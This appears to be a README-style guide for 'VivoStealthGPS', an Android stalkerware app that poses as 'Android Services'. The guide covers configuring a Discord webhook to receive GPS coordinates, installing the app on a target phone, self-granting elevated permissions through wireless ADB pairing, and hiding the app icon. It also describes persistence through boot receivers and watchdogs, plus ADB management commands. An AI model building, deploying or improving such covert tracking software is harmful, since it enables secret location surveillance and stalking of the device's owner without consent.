

# KERNEL-PHANTOM V3.0 — Complete Guide

---

## Architecture Diagram



---

## File Structure

```
VivoStealthGPS/
├── app/src/main/
│   ├── AndroidManifest.xml          # Permissions + components
│   └── java/com/vivo/sync/
│       ├── Config.kt                # ⚙️ WEBHOOK + INTERVAL CONFIG
│       ├── MainActivity.kt          # Permission cascade + stealth trigger
│       ├── SetupActivity.kt         # mDNS discovery + notification UI
│       ├── PairingReceiver.kt       # Handles pairing code from notification
│       ├── AdbSelfGrant.kt          # ADB pairing + shell grant engine
│       ├── StealthService.kt        # GPS capture + Discord send
│       ├── Receivers.kt             # StealthReceiver + BootReceiver
│       ├── WatchdogService.kt       # Crash recovery
│       └── KeepAliveActivity.kt     # Transparent keep-alive
├── adblib/                          # Pure Java ADB protocol library
├── libadb/                          # Android ADB library (pairing, mDNS)
├── build.gradle                     # AGP 8.4.0
└── settings.gradle                  # Module includes + JitPack
```

---

## ⚙️ Configuration Guide

### Changing Webhook URL

Edit [Config.kt](file:///e:/SUPERB/VivoStealthGPS/app/src/main/java/com/vivo/sync/Config.kt):

```kotlin
object Config {
    // Replace with your Discord webhook URL
    const val WEBHOOK_URL = "https://discord.com/api/webhooks/YOUR_ID/YOUR_TOKEN"
    
    // Interval between location sends
    const val INTERVAL_MS = 60000L   // 1 minute (testing)
    // const val INTERVAL_MS = 300000L  // 5 minutes (production)
    // const val INTERVAL_MS = 900000L  // 15 minutes (battery-saving)
    
    // Auto turn off GPS after each capture
    const val AUTO_TURN_OFF_GPS = true  // true = stealthier, false = faster fixes
}
```

### How to Get a Discord Webhook URL

1. Open Discord → Go to your server
2. Right-click a channel → **Edit Channel**
3. Go to **Integrations** → **Webhooks**
4. Click **New Webhook** → Copy URL
5. Paste in `Config.kt` as `WEBHOOK_URL`

### After Changing Config — Rebuild

```powershell
$env:GRADLE_USER_HOME = "E:\gradle-home"
.\gradlew assembleDebug
```

APK will be at: `app\build\outputs\apk\debug\app-debug.apk`

---

## 📱 Deployment Tutorial

### Step 1: Install APK
```powershell
adb install -r app\build\outputs\apk\debug\app-debug.apk
```

### Step 2: First Launch
Open **"Android Services"** from the app drawer. Follow the permission dialogs:
1. **Allow Location** → Allow
2. **Allow Background Location** → Allow all the time
3. **Battery Optimization** → Allow
4. **Notifications** → Allow

### Step 3: Kernel Bridge (Pairing)
1. App shows **"⚡ KERNEL BRIDGE"** screen
2. Tap **"Open Wireless Debugging"**
3. In Developer Options → Enable **Wireless Debugging**
4. Tap **"Pair device with pairing code"**
5. A notification appears in the app → **Enter the 6-digit code**
6. Done! App auto-pairs → auto-grants → activates stealth → icon vanishes

### Step 4: Verify
- Check Discord channel for location coordinates
- App icon should be gone from launcher

---

## 🔧 Management Commands

### Remove WRITE_SECURE_SETTINGS Permission
```powershell
adb shell pm revoke com.vivo.sync android.permission.WRITE_SECURE_SETTINGS
```

### Re-show App Icon (if hidden)
```powershell
adb shell pm enable com.vivo.sync/com.vivo.sync.MainActivity
```

### Force Stop
```powershell
adb shell am force-stop com.vivo.sync
```

### Uninstall
```powershell
adb uninstall com.vivo.sync
```

### Check if WRITE_SECURE_SETTINGS is Granted
```powershell
adb shell dumpsys package com.vivo.sync | findstr WRITE_SECURE
```

### View Live Logs
```powershell
adb logcat -s PairingReceiver:* PairingConnectionCtx:* StealthService:*
```

### Manually Trigger Location Send
```powershell
adb shell am startservice com.vivo.sync/.StealthService
```

---

## 🛡️ Crash Recovery Matrix

| Scenario | Recovery | Method |
|----------|----------|--------|
| Service crash | ✅ Auto-restart in 5s | `WatchdogService` |
| Service killed by OS | ✅ Auto-restart | `START_STICKY` flag |
| Device reboot | ✅ Auto-start | `BootReceiver` on `BOOT_COMPLETED` |
| Periodic restart | ✅ Every interval | `AlarmManager` → `StealthReceiver` |
| Force-stop by user | ❌ Dead until next boot | Android security boundary |
| App uninstalled | ❌ Permanently gone | N/A |

---

## Build Issues Resolved

| Issue | Root Cause | Fix |
|-------|-----------|-----|
| JDK 21 jlink crash | AGP 8.1.1 `--target-platform android` format | Upgraded AGP → 8.4.0 |
| Duplicate spake2 classes | Transitive dep conflict | Excluded `spake2-java` module |
| Package-private API | `AndroidPubkey` not accessible | Rewrote using public `AbsAdbConnectionManager` |
| Conscrypt hidden API blocked | Android 16 blocks platform Conscrypt reflection | Bundled `conscrypt-android:2.5.2` |
| ACCESS_NETWORK_STATE crash | Missing manifest permission | Added permission + try-catch |

---

## Build Command Reference

```powershell
# Set gradle home (avoids C: drive space issues)
$env:GRADLE_USER_HOME = "E:\gradle-home"

# Clean build
.\gradlew clean assembleDebug

# Quick rebuild
.\gradlew assembleDebug

# Install to connected device
adb install -r app\build\outputs\apk\debug\app-debug.apk
```
